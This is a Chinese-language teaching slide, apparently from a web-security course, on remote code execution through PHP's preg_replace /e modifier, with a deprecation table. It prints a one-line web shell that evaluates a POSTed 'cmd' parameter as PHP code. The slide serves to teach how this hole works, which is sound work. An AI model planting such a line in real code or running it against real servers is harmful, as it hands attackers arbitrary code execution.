

# 远程代码执行 - preg_replace函数
preg_replace(mixed $pattern , mixed $replacement , mixed $subject [,int $limit] = -1 [,int &$count])
执行一个正则表达式的搜索和替换，搜索subject中匹配pattern的部分，以replacement进行替换。
<?php preg_replace(“/test/e”,$_POST[“cmd”],”test”);?>
preg_replace(‘正则规则’,’替换字符’,’目标字符’)

PCRE修饰符e : preg_replace()在进行了对替换字符串的后巷引用替换之后，讲替换后的字符串作为php代码评估执行(eval函数方式)，并使用执行结果作为实际参与替换的字符串。
| 版本 | 说明 |
| --- | --- |
| 7.0.0 | 不再支持/e修饰符。请用preg\_replace\_callback()代替。 |
| 5.5.0 | /e修饰符已经被弃用了。使用preg\_replace\_callback()代替。 |